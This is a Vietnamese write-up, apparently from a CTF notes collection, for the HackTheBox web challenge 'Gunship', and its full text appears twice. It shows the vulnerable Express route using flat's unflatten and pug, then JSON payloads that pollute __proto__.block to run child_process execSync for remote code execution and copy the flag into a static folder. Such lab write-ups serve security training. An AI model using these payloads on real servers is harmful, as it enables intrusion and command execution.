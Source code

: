 ```yaml
---
tag:
    - htb
---
```

# Gunship

## Tóm tắt

Bài này là một bài White Box khi mà được cung cấp cả Source Code. 

Gunship là một Web Application được code bằng Nodejs có sử dụng phiên bản thư viện tồn tại lỗ hổng Prototype Pollution.  

## Walkthrough

Lướt qua ứng dụng thì có duy nhất một tính năng là tên xong trả về lời chào .\_.


![image (1).png](./gunship/DASj5ewOF.png)

Chúng ta cũng được cung cấp luôn source code.

 Có 2 endpoint trong đó API khá dài, có thể lỗi ở đây.

```javascript
const path              = require('path');
const express           = require('express');
const pug        		= require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);

	if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the full name of an existing member.'
		});
	}
});

module.exports = router;
```

Bài này mình nhận ra ngay ở lúc đọc source. Sử dụng `Pug` là một template engine để compile thành html và sử dụng `flat` để `unflatten` dữ liệu. Hai thư viện này đã tồn tại lỗi ở một số phiên bản trước, 2 phiên bản này mình từng phân tích ở  [https://github.com/biennd279/pug-ast](https://github.com/biennd279/pug-ast) dựa trên bài [https://blog.p6.is/AST-Injection/](https://blog.p6.is/AST-Injection/) nên mình check luôn ở file `package.json` thì đúng vậy.

```javascript
{
	/** **/
	"dependencies": {
		"express": "^4.17.1",
		"flat": "5.0.0",
		"pug": "^3.0.0"
	}
}

```

Nên sử dụng luôn Payload mình đã từng viết. Mình đẩy qua static để lấy được folder hiện tại đỡ phải đẩy ra bên ngoài.

```javascript
{
    "artist.name":"Haigh dasea",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('ls > /app/static/pwd')"
    }
}
```

![image (2).png](./gunship/El40tNjks.png)

Và lấy đẩy flag qua static và lấy flag về thôi.

```bash
{
    "artist.name":"Haigh dasea",
    "__proto__.block": {
         "type": "Text", 
         "line": "process.mainModule.require('child_process').execSync('cp /app/flag0HKDx /app/static/flag')"
    }
}
```

![image (3).png](./gunship/6EU-i1s4q.png)


  



# Gunship

## Tóm tắt

Bài này là một bài White Box khi mà được cung cấp cả Source Code. 

Gunship là một Web Application được code bằng Nodejs có sử dụng phiên bản thư viện tồn tại lỗ hổng Prototype Pollution.  

## Walkthrough

Lướt qua ứng dụng thì có duy nhất một tính năng là tên xong trả về lời chào .\_.


![image (1).png](./gunship/DASj5ewOF.png)
[](../../../.gitbook/assets/image%20%281%29.png)

Chúng ta cũng được cung cấp luôn source code.

 Có 2 endpoint trong đó API khá dài, có thể lỗi ở đây.

```javascript
const path              = require('path');
const express           = require('express');
const pug        		= require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);

	if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the full name of an existing member.'
		});
	}
});

module.exports = router;
```

Bài này mình nhận ra ngay ở lúc đọc source. Sử dụng `Pug` là một template engine để compile thành html và sử dụng `flat` để `unflatten` dữ liệu. Hai thư viện này đã tồn tại lỗi ở một số phiên bản trước, 2 phiên bản này mình từng phân tích ở  [https://github.com/biennd279/pug-ast](https://github.com/biennd279/pug-ast) dựa trên bài [https://blog.p6.is/AST-Injection/](https://blog.p6.is/AST-Injection/) nên mình check luôn ở file `package.json` thì đúng vậy.

```javascript
{
	/** **/
	"dependencies": {
		"express": "^4.17.1",
		"flat": "5.0.0",
		"pug": "^3.0.0"
	}
}

```

Nên sử dụng luôn Payload mình đã từng viết. Mình đẩy qua static để lấy được folder hiện tại đỡ phải đẩy ra bên ngoài.

```javascript
{
    "artist.name":"Haigh dasea",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('ls > /app/static/pwd')"
    }
}
```

![image (2).png](./gunship/El40tNjks.png)

Và lấy đẩy flag qua static và lấy flag về thôi.

```bash
{
    "artist.name":"Haigh dasea",
    "__proto__.block": {
         "type": "Text", 
         "line": "process.mainModule.require('child_process').execSync('cp /app/flag0HKDx /app/static/flag')"
    }
}
```

![image (3).png](./gunship/6EU-i1s4q.png)


  




